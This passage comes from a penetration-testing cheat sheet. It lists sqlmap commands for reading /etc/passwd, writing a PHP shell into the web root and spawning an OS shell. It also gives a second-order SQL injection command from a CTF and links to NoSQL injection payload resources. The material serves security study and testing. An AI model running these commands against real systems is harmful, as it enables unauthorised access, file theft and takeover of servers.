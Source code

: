 | sqlmap --list-tampers                                                                                                    | List all tamper scripts                                     |
| sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba                                                               | Check for DBA privileges                                    |
| sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"                                                       | Reading a local file                                        |
| sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"                  | Writing a file                                              |
| sqlmap -u "http://www.example.com/?id=1" --os-shell                                                                      | Spawning an OS shell                                        |

***

## **Second Order SQLi**

> Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way

One example of second order SQLi is the following i faced during a CTF challenge:

1. The target web application's registration form suffered from SQLi
2. After registering a user, a specific field inside the user profile showed the result of the SQL injection
3. To achieve a second-order SQLi with sqlmap i used the following:
   * `sqlmap -r req --batch --dump --risk 3 --level 5 --second-req req2 --dbms=mysql --tamper=space2comment --dump`

***

## **NoSQL Injection**

> * NoSQL databases provide looser consistency restrictions than traditional SQL databases.
> * By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits.
> * Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

**Useful External Resources:**

1. [https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/NoSQL%20Injection](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/NoSQL%20Injection)
2. [https://nullsweep.com/nosql-injection-cheatsheet/](https://nullsweep.com/nosql-injection-cheatsheet/)
3. [https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/nosql/](https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/nosql/)
4. [https://book.hacktricks.xyz/pentesting-web/nosql-injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
